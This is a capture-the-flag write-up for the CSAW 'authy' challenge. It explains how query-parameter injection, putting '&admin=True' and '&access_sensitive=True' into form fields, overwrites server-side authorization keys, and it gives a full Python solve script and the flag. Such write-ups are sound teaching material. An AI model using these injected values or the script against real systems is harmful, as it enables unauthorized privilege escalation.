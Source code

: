 # authy

Author: [roerohan](https://github.com/roerohan) and [thebongy](https://github.com/thebongy)

# Requirements

- Python

# Source

- [handout.py](./handout.py)

```
Check out this new storage application that your government has started! It's supposed to be pretty secure since everything is authenticated...

curl crypto.chal.csaw.io:5003
```

# Exploitation

This is possibly an probably solution. We do not use any crypto, just exploit the following lines of code:

```py
params = identifier.replace('&', ' ').split(" ")
note_dict = { param.split("=")[0]: param.split("=")[1]  for param in params }
```

We can make use of the replace `'&'` with `' '` by inserting `'&'`s in the values for the query params, so that the resultant strings turn out like the following.

```
admin=False&access_sensitive=False&author=&admin=True&access_sensitive=True&note=&entrynum=783
```

Here, we pass the value of `author` as `&admin=True&access_sensitive=True`, so that when the server replaces `'&'` by `' '`, the `admin` and the `access_sensitive` keys are overwritten.
<br />

There is one small problem, the `entrynum` is attached to the end of the string, hence can't be overwritten by using this technique. We can look into the `/new` route to find out why it's at the end.
<br />

In the `/new` route, the following code is executed:

```py
payload = flask.request.form.to_dict()
if "author" not in payload.keys():
    return ">:(\n"
if "note" not in payload.keys():
    return ">:(\n"

if "admin" in payload.keys():
    return ">:(\n>:(\n"
if "access_sensitive" in payload.keys():
    return ">:(\n>:(\n"

info = {"admin": "False", "access_sensitive": "False" }
info.update(payload)
info["entrynum"] = 783
```

The `entrynum` key is set at the end, hence it appears at the end. Therefore, if the request body already had a key called `entrynum` before `author`, it would show up before and could be overwritten by using the `&` strategy in `author` or `note`. The following script can be used to solve the challenge.

```py
import requests
import base64

local = False

url = lambda x: "http://crypto.chal.csaw.io:5003" + x

if local:
    url = lambda x: "http://localhost:5000" + x


def view(id, integrity):
    print(f"\n\nSending id={id}, integrity={integrity}\n\n")
    r = requests.post(
        url("/view"),
        data={
            "id": id,
            "integrity": integrity,
        },
    )

    print("\n\n")
    print(r.text)
    return r.text


data = {
    "entrynum": 7,
    "author": "&admin=True",
    "note": "&access_sensitive=True&entrynum=7",
}

r = requests.post(url("/new"), data=data)

encoded, hexdigest = r.text.strip().split(":")
encoded = encoded.split('Successfully added ')[1]

print("Encoded: " + encoded)
print("Hexdigest: " + hexdigest)

flag = view(encoded, hexdigest)
```

The flag is:

```
flag{h4ck_th3_h4sh}
```
